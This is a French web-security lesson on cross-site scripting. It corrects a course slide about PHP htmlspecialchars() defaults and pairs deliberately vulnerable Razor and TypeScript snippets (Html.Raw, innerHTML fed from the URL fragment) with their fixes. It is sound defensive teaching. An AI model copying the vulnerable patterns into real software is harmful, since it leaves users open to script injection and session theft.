::: correction-du-cours {source="Diapositive 29 de la séance 7 (millésime 2026), lue sur capture ; changement de valeur par défaut de htmlspecialchars() en PHP 8.1 documenté sur php.watch, vérifié le 2026-08-19 dans la fiche KB web/securite/xss-cross-site-scripting.md"}
Le corrigé projeté à la diapositive 29 est **incomplet**, et il faut distinguer deux constats.

**Le constat certain, qui ne dépend d'aucune version de PHP.** Juste sous la ligne corrigée, la
capture montre deux `echo` où `$id_client` est interpolé brut dans un attribut `href` délimité par
des **apostrophes**. Tant que cette valeur vient d'une clé numérique de la base, rien ne se passe.
Le jour où elle vient d'un paramètre d'URL, d'une colonne texte ou d'une injection SQL — le
scénario que le cours décrit lui-même deux diapositives plus loin — une charge utile qui referme
l'apostrophe injecte un attribut, typiquement un gestionnaire d'événement, **sans jamais avoir
besoin d'écrire une balise de script**. Un échappement partiel n'est pas un correctif partiel :
c'est un correctif absent pour le chemin resté ouvert.

**L'aggravant possible, qui dépend de la version.** Jusqu'à PHP 8.0 inclus, `htmlspecialchars()`
appelée sans drapeaux utilise `ENT_COMPAT` : elle encode le guillemet double et **laisse
l'apostrophe intacte**. Depuis PHP 8.1, le défaut est `ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML401`,
précisément parce que l'ancien défaut était jugé dangereux en contexte d'attribut. Or la
démonstration tourne sur le XAMPP local de l'étudiant, dont la version n'est écrite nulle part :
on ne sait donc pas si l'apostrophe est échappée chez toi. C'est exactement la raison d'écrire les
drapeaux explicitement.

**À l'examen**, la réponse attendue reste « passer le contenu dans `htmlspecialchars()` avant de
l'afficher ». **En production** : drapeaux explicites, jeu de caractères explicite, attributs en
guillemets doubles — et, mieux encore, un moteur de gabarits qui encode par défaut.
:::

### 2. La même faute derrière un moteur de gabarits

Les frameworks encodent par défaut, ce qui rend cette famille de bugs plus rare — mais pas
impossible, parce que chacun offre une porte de sortie. Le bug réel du module d'intégration de
l'édition antérieure du cours était de cette forme : une vue Laravel écrivait `{!! $liste->nom !!}`
au lieu de `{{ $liste->nom }}`, et le nom d'une liste devenait exécutable chez tout visiteur — y
compris l'administrateur. Voici le même bug en Razor, puisque c'est l'écosystème de la phase 2 de
ce site, et que le module 05 y revient.

:::: comparaison
::: vulnerable
```csharp
@foreach (var client in Model.Clients)
{
    <tr>
        <td>@Html.Raw(client.Nom)</td>
    </tr>
}
```
{lignes="4"} `Html.Raw` **désactive volontairement** l'encodage automatique de Razor et écrit la
chaîne telle quelle dans la page. C'est une porte de sortie légitime — pour du HTML déjà assaini,
produit par l'application. Ici, la valeur vient de la base, donc d'un utilisateur : la porte est
grande ouverte.

{lignes="4"} Ses équivalents dans les autres écosystèmes portent des noms différents et font
exactement la même chose : `{!! !!}` en Blade, `dangerouslySetInnerHTML` en React,
`bypassSecurityTrustHtml` en Angular. Apprends-les : ce sont les mots-clés à chercher en revue de
code, bien plus vite trouvés qu'une concaténation.
:::
::: corrige
```csharp
@foreach (var client in Model.Clients)
{
    <tr>
        <td>@client.Nom</td>
    </tr>
}
```
{lignes="4"} Le correctif consiste à **retirer** quelque chose, pas à en ajouter. Razor encode par
défaut ce qu'on lui donne à afficher : la balise déposée en base s'affiche alors comme du texte.

{lignes="4"} Le vrai enseignement de cette paire : dans un framework moderne, un XSS n'est presque
jamais un oubli, c'est une **désactivation explicite**. La question à poser en revue n'est pas
« a-t-on pensé à encoder ? » mais « pourquoi cet encodage a-t-il été désactivé ici, et qui a
assaini la valeur à la place ? ».
:::
::::

### 3. Le cas où le serveur n'est pas en cause

Ce troisième cas est hors du cours, et il est ici parce qu'il déplace la faute : le serveur est
irréprochable, le HTML qu'il sert est parfait, et la page est quand même vulnérable.

:::: comparaison
::: vulnerable
```typescript
// La page souhaite la bienvenue avec le nom passé dans le fragment de l'URL
const nom = decodeURIComponent(location.hash.slice(1));
document.getElementById('salutation').innerHTML = 'Bonjour, ' + nom;
```
{lignes="2"} La **source** : une donnée entièrement contrôlée par l'attaquant, qui n'a jamais
transité par le serveur. Aucun journal, aucun pare-feu applicatif ne verra passer ce texte.

{lignes="3"} Le **sink**. Assigner à `innerHTML`, c'est demander au navigateur d'**analyser du
balisage** : la chaîne est lue comme du HTML, les balises qu'elle contient deviennent des
éléments. Une charge `` déclenche le gestionnaire dès que le
chargement de l'image échoue — et il échoue toujours, c'est le but.

{lignes="3"} À noter : un `<script>` inséré par `innerHTML` n'est **pas** exécuté par le
navigateur — c'est justement pourquoi les charges de XSS basé sur le DOM passent par un
gestionnaire d'événement comme `onerror`.
:::
::: corrige
```typescript
const nom = decodeURIComponent(location.hash.slice(1));
const cible = document.getElementById('salutation');
if (cible) {
  cible.textContent = 'Bonjour, ' + nom;
}
```
{lignes="4"} Un seul mot change, et c'est toute la correction. `textContent` insère du **texte** :
le navigateur n'analyse aucun balisage, il crée un nœud de texte. Ce n'est pas un encodage, c'est
un **changement d'API** — on n'a pas nettoyé la valeur, on a cessé de la traiter comme du code.

{lignes="4"} Si la page devait vraiment afficher du HTML riche fourni par l'utilisateur — un
commentaire mis en forme, par exemple — `textContent` ne conviendrait pas, et il faudrait alors
passer la valeur par un assainisseur comme DOMPurify avant de l'assigner à `innerHTML`. Encoder,
assainir : deux besoins, deux outils, et jamais l'un à la place de l'autre.
:::
::::

## À toi de jouer

Deux exercices. La **simulation** rejoue pas à pas le diagramme de séquence du XSS stocké : à
chaque étape, tu vois ce que contient le champ, ce que la base stocke, ce que le navigateur de la
victime reçoit, et ce qui part vers l'attaquant.

::: complement
Rappel de provenance avant de t'y lancer : le scénario stocké et sa correction sont matière
d'examen ; l'exfiltration détaillée du cookie et le vocabulaire *source* / *sink* viennent de la
base de connaissances.
:::

[[simulation]]

Puis les questions, pour vérifier que tu sais reconnaître la faute et non seulement la nommer :
repérer la ligne fautive, prédire ce que le navigateur affiche ou exécute, choisir la bonne
parade, et dire ce qu'un token anti-CSRF change — ou ne change pas — face à un XSS.

[[quiz]]

## À retenir

::: a-retenir
- **Le XSS est une injection dont l'interpréteur est le navigateur d'un autre.** Même cause racine
  qu'au module 03 — une donnée relue comme du code — mais la faute se produit à l'**écriture dans
  la page**, pas à l'envoi de la requête, et la victime est un utilisateur, pas la base.
- **Ce qui rend le script dangereux, c'est l'origine dans laquelle il s'exécute.** Injecté dans la
  page du site, il hérite de tout ce que le site autorise : DOM, cookies sans `HttpOnly`, et
  surtout requêtes émises avec la session de la victime. La *same-origin policy* protège une
  origine contre l'extérieur, pas contre son propre contenu corrompu.
- **La défense principale est l'encodage en sortie, dans le contexte où la donnée atterrit** —
  `htmlspecialchars($v, ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, 'UTF-8')` en PHP, ou simplement laisser le moteur
  de gabarits faire son travail. Un filtre d'entrée par liste noire est systématiquement
  contournable.
- **Encoder à l'affichage, jamais à l'insertion.** Encoder en base corrompt la donnée, fige un
  contexte de sortie qu'on ne connaît pas encore, et ne protège pas : toute autre voie d'écriture
  en base contourne le point d'insertion « propre ».
- **Un XSS annule les défenses CSRF, et `HttpOnly` n'annule pas le XSS.** Le script s'exécute à
  l'intérieur du périmètre : il lit le token affiché dans la page. `HttpOnly`, CSP et
  assainissement limitent les **dégâts** ; seul l'encodage supprime la **cause**.
:::

## Aller plus loin

- **Fiche source** — `web/securite/xss-cross-site-scripting.md` (KnowledgeBase) : la
  reconstitution diapositive par diapositive de la démonstration du cours, le tableau complet des
  contournements de listes noires, le déroulé de l'exploit Laravel (vol de cookie puis élévation
  de privilège admin), le tableau d'arbitrage des six couches de défense avec leurs angles morts,
  et les corrigés des exercices DVWA de l'édition antérieure.
- **Module précédent** — l'injection (module 03) : la même cause racine, un autre interpréteur.
  Relis-en la section « Le principe commun à toutes les injections » avec ce module en tête.
- **Module suivant** — le CSRF (module 05) : la faille que le XSS rend caduque, et les défenses
  (`SameSite`, tokens synchronizer) qu'un script injecté contourne de l'intérieur.
- **Modules liés** — les sessions et cookies (module 11) pour `HttpOnly` et le déroulé complet du
  vol de session ; le durcissement du serveur (module 13) pour les en-têtes de sécurité, dont la
  CSP.
- Sources originales citées dans cette leçon :
  [Cross Site Scripting Prevention Cheat Sheet — OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html),
  [DOM based XSS Prevention Cheat Sheet — OWASP](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html),
  [Content Security Policy Cheat Sheet — OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html),
  [Cross-site scripting — PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-scripting),
  [Content-Security-Policy — MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy).
